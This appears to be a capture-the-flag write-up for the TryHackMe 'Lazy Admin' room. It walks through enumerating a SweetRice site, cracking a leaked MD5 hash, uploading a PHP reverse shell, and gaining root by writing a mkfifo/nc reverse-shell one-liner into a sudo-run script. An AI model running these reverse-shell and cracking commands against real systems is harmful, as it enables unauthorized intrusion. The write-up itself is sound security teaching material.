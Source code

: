 ```yaml
---
title: Lazy Admin
draft: false
tags:
  - tryhackme
---
```

# Enumeration

I started with a network scan using `rustscan`.

`rustscan -a 10.10.10.10 --ulimit 5000 -- -sC -sV`

With this, there are two open ports on the machine. 22(ssh) and 80(http). I started by browsing to the webpage, but it was just the default Apache installation page. So, I then ran `feroxbuster` to check for any other interesting directories on the server. The only directory found was `/content/`, with multiple subdirectories: `/content/inc`, `/content/as`, `/content/attachments`, etc. Browsing to [http://10.10.10.10/content](http://10.10.10.10/content) reveals the website is hosting SweetRice.

The next thing I did was look in the `/content/inc` directory, as that can usually include core-components to the website, like database logins if not setup properly. I found two interesting files. 1) `latest.txt` which included just “1.5.1”, which I assume was the SweetRice version. And `mysql_backups` which had a mySQL backup. First, I looked up SweetRice 1.5.1 vulnerabilities, and found an [Arbitrary File Upload](https://www.exploit-db.com/exploits/40716). This exploit requires a username and password to use, so let’s find it.

![MySQL](static/mysql.png)


# Password Cracking

In the backup file, we can find the username and a hashed password. All we have to do is run the hash through `JohnTheRipper` or `Hashcat` and we will crack it.

```
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash

hashcat -a -m 0 hash /usr/share/wordlists/rockyou.txt
```

# Exploitation

With the username and password, we can now run the exploit. I first started by getting a PHP reverse shell from pentestmonkey and started a listener:

```
ncat -lvnp 8888
```

I ran `python3 exploit.py` and gave the username, password, and file to upload, and it said it uploaded successfully. However, when browsing to [http://10.10.10.10/content/attachments/rev.php](http://10.10.10.10/content/attachments/rev.php) I was given a file not found, so the exploit didn’t seem to be working.

I then went to [http://10.10.10.10/content/as](http://10.10.10.10/content/as) and logged in to the administrator account. I did some digging and noticed that you can go to the Ads section and upload code. So, I uploaded the PHP reverse shell and started listening again, and went to [http://10.10.10.10/content/ads/rev.php](http://10.10.10.10/content/ads/rev.php) and was given a reverse shell.

A `whoami` reveals we are `www-data`, and doing `cd /home` and then `ls` shows an `itguy` home folder. `ls itguy` will reveal our `user.txt` which can be accessed via `cat user.txt`.

# Privilege Escalation

We can start with `sudo -l` to see what all `www-data` can run as sudo. The only thing is a perl script, `backup.pl`. We can analyze the `backup.pl` file with `cat` and notice it runs a shell command, `/etc/copy.sh`. We can `cat` this and see it runs:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.1 5554 >/tmp/f
```

So, we have a shell reverse-shell that we can access as sudo. We just need to modify the IP address to ours. I first tried using nano, but it wouldn’t work. vim and vi didn’t work either. The only solution I could think of was to overwrite the file with echo:

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 5554 >/tmp/f" > /etc/copy.sh
```

Now, we will create another listener with

```
nct -lvnp 5554
```

and run the Perl script as sudo, which will call our modified `copy.sh`.

```
sudo /usr/bin/perl /home/itguy/backup.pl
```

This will give us a root reverse shell.